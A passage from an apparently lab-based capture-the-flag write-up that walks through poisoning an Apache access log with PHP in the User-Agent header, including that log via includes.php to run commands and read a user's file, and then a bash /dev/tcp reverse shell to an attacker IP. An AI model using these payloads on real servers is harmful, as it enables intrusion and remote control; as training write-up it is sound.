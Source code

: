 ```bash
```

Effectly, it responds: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

So I injected Bash commands into a PHP block to list John´s content:

```bash
❯ curl -A "<?php system('ls -l /home/john/'); ?>" http://192.168.0.101

<h1>HELLO WORLD!</h1>
```

```bash
❯ curl "http://192.168.0.101/includes.php?display_page=/var/log/apache2/access.log" -s | tail
192.168.0.104 - - [25/Feb/2025:14:37:00 -0500] "GET /includes.php?display_page=/var/log/apache2/access.log HTTP/1.1" 200 60663912 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:41:54 -0500] "GET / HTTP/1.1" 200 173 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
"
192.168.0.104 - - [25/Feb/2025:14:42:34 -0500] "GET /includes.php?display_page=/var/log/apache2/access.log HTTP/1.1" 200 60664197 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:44:51 -0500] "GET / HTTP/1.1" 200 173 "-" "user.txt
"
192.168.0.104 - - [25/Feb/2025:14:44:58 -0500] "GET /includes.php?display_page=/var/log/apache2/access.log HTTP/1.1" 200 60664437 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:46:34 -0500] "GET / HTTP/1.1" 200 173 "-" "total 4
-rw-r--r-- 1 john john 33 Oct 19  2022 user.txt
"
```

John has under his power `user.txt`

```bash
❯ curl -A "<?php system('cat /home/john/user.txt'); ?>" http://192.168.0.101

<h1>HELLO WORLD!</h1>
```

![](/assets/images/TheWall-1.png)

### 3.1. Access to `John`

I tried to reverse Shell using this payload to access the machine:

```bash
bash -c '/bin/bash -i >& /dev/tcp/192.168.0.104/8888 >&1'
```
